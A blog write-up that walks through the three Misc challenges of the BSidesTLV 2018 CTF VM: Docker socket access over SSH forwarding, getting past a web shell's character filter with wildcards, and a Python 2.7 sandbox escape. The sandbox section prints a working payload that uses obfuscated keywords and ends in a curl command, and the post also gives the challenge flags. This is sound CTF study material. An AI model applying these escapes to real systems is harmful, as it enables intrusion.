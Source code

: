 ```yaml
---
layout: post
title: "BSidesTLV: 2018 CTF (Misc)"
date: 2018-10-24 18:10:08 +0000
category: CTF
tags: [BSidesTLV]
comments: true
image:
  feature: bsidestlv.jpg
---
```


This post documents my attempt to complete [BSidesTLV: 2018 CTF (Misc)](https://www.vulnhub.com/entry/bsidestlv-2018-ctf,250/). If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

The 2018 BSidesTLV CTF competition brought together over 310 teams burning the midnight oil to crack our challenges in a bout that lasted for two weeks. You can now enjoy the same pain and suffering, using this easy-to-use, condensed VM that now hosts all our challenges in an easy to digest format. The CTF has five categories:

+ Web (10 challenges)
+ Reverse Engineering (3 challenges)
+ Misc (3 challenges)
  1. <a href="#{{ 'DockingStation' | downcase | replace: ' ', '-'}}">DockingStation</a>
  2. <a href="#{{ 'c1337Shell' | downcase | replace: ' ', '-'}}">c1337Shell</a>
  3. <a href="#{{ 'PySandbox-Insane' | downcase | replace: ' ', '-'}}">PySandbox-Insane</a>
+ Forensics (1 challenge)
+ Crypto (2 challenges)

What follows is my humble attempt of cracking the challenges in the **Misc** category.

### DockingStation

This is how the challenge looks like.

<a class="image-popup">
![c7de4a68.png](/assets/images/posts/bsidestlv-misc/c7de4a68.png)
</a>

After logging in, this is what I found.

<a class="image-popup">
![d59d61f1.png](/assets/images/posts/bsidestlv-misc/d59d61f1.png)
</a>

If I've to guess, I'd say that's a Unix socket connected to a Docker. And since I've the SSH credentials, I can make use of SSH local port forwarding and connect to the Docker like so.

<a class="image-popup">
![3581904c.png](/assets/images/posts/bsidestlv-misc/3581904c.png)
</a>

Look Ma, got access to Docker [API](https://docs.docker.com/engine/api/v1.37/) without using Unix socket.

<a class="image-popup">
![b6f6570d.png](/assets/images/posts/bsidestlv-misc/b6f6570d.png)
</a>

The stopped container with the image `galf` is highly suspicious. On second look, notice the reverse of `galf` is `flag`? This must be it.

My attempts to start the container resulted in an error.

<a class="image-popup">
![c4f4c07b.png](/assets/images/posts/bsidestlv-misc/c4f4c07b.png)
</a>

I came across the command to export the entire container as a tarball after consulting the API.

<a class="image-popup">
![770aa59a.png](/assets/images/posts/bsidestlv-misc/770aa59a.png)
</a>

After extracting the files from the tarball, the flag is at `/home/flag_is_here/flag.txt`.

<a class="image-popup">
![d6da982b.png](/assets/images/posts/bsidestlv-misc/d6da982b.png)
</a>

The flag is `BSidesTLV{i_am_r34dy_t0_esc4p3_th3_d0ck3r!}`.

### c1337Shell

This is how the challenge looks like.

<a class="image-popup">
![f566bc99.png](/assets/images/posts/bsidestlv-misc/f566bc99.png)
</a>

Let's visit the challenge URL.

<a class="image-popup">
![cb794b70.png](/assets/images/posts/bsidestlv-misc/cb794b70.png)
</a>

Appears to be a web shell. Turns out that it doesn't accept alphanumerical characters and `$&|\'<>`.

Look what happens when I supply a bad character?

<a class="image-popup">
![6806a44f.png](/assets/images/posts/bsidestlv-misc/6806a44f.png)
</a>

Now look what happens when I supply the tilde `~` character?

<a class="image-popup">
![1d3306cd.png](/assets/images/posts/bsidestlv-misc/1d3306cd.png)
</a>

In `bash`, the tilde `~` character represents the home directory of the current user. I suspect "the other side" is `echo`ing out shell output, whatever "the other side" is.

In that case, I should be able to use shell wildcards. The wildcard `?` and `*` represents single character and zero-or-more characters respectively.

Using these two wildcards, I was able to map out where the flag is.

<a class="image-popup">
![5aa73479.png](/assets/images/posts/bsidestlv-misc/5aa73479.png)
</a>

The problem now is this—how the f\*\*k do I display the flag with `cat`? With backticks `` `...` `` (or command substitution) and wildcards of course!

We know `cat` is at `/bin/cat`. We can use `/???/???` to represent it. Of course, there are other directories and commands behind that pattern. But, when you surround it with backticks, the shell should execute the command and skip the rest of the non-executable. Let's give it a shot.

<a class="image-popup">
![177cc70b.png](/assets/images/posts/bsidestlv-misc/177cc70b.png)
</a>

The flag is `BSidesTLV{1_l1k3_wildcards_&_r3g3x_but_h8_th3_cr34t0r}`.

### PySandbox-Insane

This is how the challenge looks like.

<a class="image-popup">
![00261ba8.png](/assets/images/posts/bsidestlv-misc/00261ba8.png)
</a>

The aim of this challenge is to escape the sandbox and run the following code.

```py
import os; os.system("curl secret/flag.txt")
```

That's all. No more no less.

How do we crack this challenge then? Remember Python's axiom? Everything is an object. CPython provides [special methods](https://docs.python.org/3/reference/datamodel.html#special-method-names) to set or get attributes in/from an object. Essentially, CPython allows shortcuts or syntactic sugar for a simple statement such as `import os`. Under the hood, it's all special methods and/or special attributes at work.

For example, let's say you want to assign the integer `1` to variable `a`. This is how you do it in Python 2.7.

```
>>> a = 1
>>> a
1
```

Or, you can do it this way.

```
>>> __builtins__.__setattr__("a", 1)
>>> a
1
```

Which is another way of saying, "I'm setting an attribute with a name of 'a' and value of 1 in the `__builtins__` module." `__builtins__` is a module (an object by the way) that provides direct access to all the 'built-in' identifiers of Python. Use `__builtins__.__dict__` to view all the attributes of this object.

Armed with this simple introduction, how do we run the above code? Again, the challenge has provided the much-needed hints.

<a class="image-popup">
![53fa6e73.png](/assets/images/posts/bsidestlv-misc/53fa6e73.png)
</a>

If you look at the subclasses that inherit from `object`, you'll find that `warningmessage` is one of them.

<a class="image-popup">
![a9b63ff6.png](/assets/images/posts/bsidestlv-misc/a9b63ff6.png)
</a>

Dig deeper into the [source code](https://github.com/python/cpython/blob/2.7/Lib/warnings.py) of the `warnings` module, you'll see that the `warnings` module imports the `linecache` module.

<a class="image-popup">
![42b3f2fc.png](/assets/images/posts/bsidestlv-misc/42b3f2fc.png)
</a>

Further down the code, you'll find the `warnings.WarningMessage` class.

<a class="image-popup">
![c84f1469.png](/assets/images/posts/bsidestlv-misc/c84f1469.png)
</a>

We can continue into the [source code](https://github.com/python/cpython/blob/2.7/Lib/linecache.py) of the `linecache` module, and you'll see that it imports the `os` module.

<a class="image-popup">
![118b740a.png](/assets/images/posts/bsidestlv-misc/118b740a.png)
</a>

In summary, we can expand the code above like this.

```
obj = __builtins__.__class__.__mro__[1]
sub = obj.__subclasses__
war = sub()[58]
ini = war.__init__
glo = ini.func_globals
lin = glo["linecache"]
dic = lin.__dict__
ops = dic["os"]
run = ops.["system"]
run("curl secret/flag.txt")
```

Of course, certain words are still banned from use by the firewall. Recall how Python performs `a = 1` under the hood? It's actually setting an attribute in the `__builtins__` object. With that in mind, we can make use of another trick to bypass the firewall—first break up the banned words and then combine them back through concatenation. Python uses the `+` operator for string concatenation. In fact, Python uses `__add__` method-wrapper internally to do that.

For example, I can represent "curl" with `"cu".__add__("rl")`.

Here's the terse version. **Warning**: lots of typing ahead.

```py
__builtins__.__setattr__("obj",__builtins__.__getattribute__("__class".__add__("__")).mro(  ).__getitem__(1))
__builtins__.__setattr__("sub",obj.__getattribute__(obj,"__sub".__add__("classes__")))
__builtins__.__setattr__("war",sub( ).__getitem__(58))
__builtins__.__setattr__("ini",war.__getattribute__(war,"__in".__add__("it__")))
__builtins__.__setattr__("glo",ini.__getattribute__("__glo".__add__("bals__")))
__builtins__.__setattr__("lin",glo.__getitem__("line".__add__("cache")))
__builtins__.__setattr__("dic",lin.__getattribute__("__dic".__add__("t__")))
__builtins__.__setattr__("ops",dic.__getitem__("o".__add__("s")))
__builtins__.__setattr__("run",ops.__getattribute__("sy".__add__("stem")))
run("cu".__add__("rl	sec").__add__("ret/fl").__add__("ag.txt"))
```

I've also replaced space (`0x20`) with tab (`0x09`) to bypass the firewall.

<a class="image-popup">
![89b5efca.png](/assets/images/posts/bsidestlv-misc/89b5efca.png)
</a>

The flag is `BSidesTLV{I_AM_The_Python_Master}`.
